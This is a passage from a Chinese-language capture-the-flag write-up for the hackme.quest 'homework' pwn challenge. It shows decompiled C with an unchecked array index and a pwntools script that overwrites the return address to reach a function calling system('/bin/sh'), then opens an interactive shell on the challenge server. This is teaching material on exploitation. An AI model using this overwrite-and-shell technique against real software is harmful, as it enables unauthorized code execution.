 简单的示例。直接`nc`连接服务器端口，`cat flag`即可。

#### 59 Pwn    homework

write up：

部分代码：

```c
void run_program()
{
	int arr[10]; // [esp+14h] [ebp-34h]
	... ...
	__isoc99_scanf("%d", &act);
    switch ( act )
    {
      case 0:
        return;
      case 1:
        printf("Index to edit: ");
        __isoc99_scanf("%d", &i);
        printf("How many? ");
        __isoc99_scanf("%d", &v);
        arr[i] = v;
        break;
	... ...
}
```

可以修改栈里的值。

```c
void call_me_maybe()
{
  system("/bin/sh");
}
```

直接修改`ret_addr`到`call_me_maybe`。

```python
from pwn import *

#context.log_level="debug"
#p=process("./homework")
p=remote("ctf.hackme.quest",7701)

elf = ELF("./homework")
call_me_maybe=elf.symbols['call_me_maybe']
p.recvuntil(b"What's your name? ")
p.sendline(b"test")

p.recvuntil(b"dump all numbers\n > ")
p.sendline(b"1")
p.recvuntil(b"Index to edit: ")
p.sendline(b"14")
p.recvuntil(b"How many? ")
p.sendline(str(call_me_maybe).encode())

p.recvuntil(b"dump all numbers\n > ")
p.sendline(b"0")

p.sendline(b"ls")
p.interactive()
```
